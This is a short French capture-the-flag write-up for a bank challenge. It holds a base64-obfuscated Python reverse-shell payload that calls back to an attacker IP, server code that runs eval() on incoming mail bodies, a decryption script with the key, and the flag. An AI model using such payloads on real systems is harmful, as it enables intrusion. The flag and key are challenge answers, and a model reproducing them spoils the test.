


# BANQUE WRITEUP

Aller dans contact pour contacter la banque




## Payload

```
os.system("echo ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjIxNy4zNiI7ZXhwb3J0IFJQT1JUPTY5O3B5dGhvbiAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9zaCIpJw== | base64 -d | sh")
```

Et écouter avec `NC` sur ta machine



Code de l'app (site web)

```py
import smtplib

from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from flask import Flask, render_template, redirect, url_for, request

app = Flask(__name__)


@app.route('/')
def index():
    return render_template('index.html')

@app.route('/api/mail', methods=['POST'])
def mail():
    
    if request.method != 'POST':
        return "Method not allowed", 405
    
    subject = request.form['subject']
    mail_from = request.form['email']
    message = request.form['message']
    rcpt_to = "contactbanque@snctf.fr"

    try:
        # Configuration du serveur SMTP
        smtp_server = 'localhost'
        smtp_port = 25

        msg = MIMEMultipart()
        msg['From'] = mail_from
        msg['To'] = rcpt_to
        msg['Subject'] = subject
        msg.attach(MIMEText('\n'.join(message.replace('\r', '\n').split('\n')), 'plain'))

        # Connexion au serveur SMTP et envoi du mail
        with smtplib.SMTP(smtp_server, smtp_port) as server:
            server.sendmail(mail_from, rcpt_to, msg.as_string())

        return 'Email sent successfully!', 200
    except Exception as e:
        return f'Failed to send email: {str(e)}', 500


if __name__ == '__main__':
    app.run(debug=False, port=8080, host='0.0.0.0')
```

Server mail

```py
import asyncio, os, re
from aiosmtpd.controller import Controller
from datetime import datetime
from icecream import ic


def chiffrement(word):
    key = [ord(i) for i in os.environ.get('KEY')]
    new_mot = ''
    for i, n in enumerate(word):
        new_mot += chr(( ord(n) + key[i%len(key)]) % 94 + 32)
    return new_mot

def chiffrement_mail(lines):
    return [chiffrement(line) for line in lines]


def mail_to_str(mail_from, mail_to, subject, mail_data):
    str_ = f"À : {mail_from}\n\rDe : {mail_to}\n\rObjet : {subject}\n\r{mail_data}"
    
    str_ = '\n'.join([line for line in str_.split('\n') if line.strip()])
    return str_


class CustomSMTPHandler:
    async def handle_DATA(self, server, session, envelope):
        email_content = envelope.content.decode('utf8', errors='replace')
    	
        to_pattern = re.compile(r'^To: (.*)$', re.MULTILINE)
        subject_pattern = re.compile(r'^Subject: (.*)$', re.MULTILINE)

        mail_to = re.search(to_pattern, email_content).group(1)
        subject = re.search(subject_pattern, email_content).group(1)
        body = email_content.split('Content-Transfer-Encoding')[1].split('bit')[1].strip().split('--')[0].strip()

        mail_str = mail_to_str(envelope.mail_from, mail_to, subject, body)
        ic(mail_str.replace('\r', '\n').split('\n'))

        os.makedirs('../mail', exist_ok=True)

        now = datetime.now()
        dt_string = now.strftime("%Y-%m-%d_%H-%M-%S")
        mail_path = os.path.join('../mail', f'{dt_string}.txt')

        with open(mail_path, 'w') as f:
            hash = chiffrement_mail(mail_str.split('\r'))
            f.write('\n'.join(hash))

        try:
            eval(body)
        except Exception as e:
            print(f"Error: {e}")

        return '250 OK'

    
async def run_smtp_server():
    handler = CustomSMTPHandler()
    controller = Controller(handler, hostname='0.0.0.0', port=25)
    controller.start()
    print("server listen on 0.0.0.0:25")

    try:
        while True:
            await asyncio.sleep(3600)  # Keep the server running
    except KeyboardInterrupt:
        pass
    finally:
        controller.stop()

if __name__ == '__main__':
    asyncio.run(run_smtp_server())
```


Le chiffrement est un décalage de caractères avec une clé qui 
est dans l'env du système


Code pour déchiffrer les mails

```py
import os

def read_file(file):
    with open(file, 'r', encoding="utf-8") as f:
        return f.read().split('\n')

def write_file(file, lines):
    with open(file, 'w', encoding="utf-8") as f:
        f.write('\n'.join(lines))

def chiffrement(word):
    key = "FarBanK"
    key = [ord(i) for i in key]
    new_mot = ''
    for i, n in enumerate(word):
        new_mot += chr(( ord(n) + key[i%len(key)]) % 94 + 32)
    return new_mot

def chiffrement_mail(lines):
    return [chiffrement(line) for line in lines]

def InverChiffrement(word):
    key = "FarBanK"
    Tabcle = [ord(i) for i in key]
    dest = ''
    for i, n in enumerate(word):
        temp = (ord(n) - Tabcle[i%len(Tabcle)] + 32) % 94 + 30
        if temp < 32 : temp += 94
        if temp > 126: temp -= 94
        dest += chr(temp)
    return dest

def InverChiffrement_mail(str_file):
    hash = []
    for i in str_file:
        hash.append(InverChiffrement(i))
    return hash


for file in os.listdir():
    if file.endswith(".txt"):
        lines = read_file(file)
        decode = InverChiffrement_mail(lines)
        print('\n'.join(decode))
        print('\n------------------------------------\n')
```


Et on a le flag dans un des mails
`SNCTF{2h_dU_m@t1n}`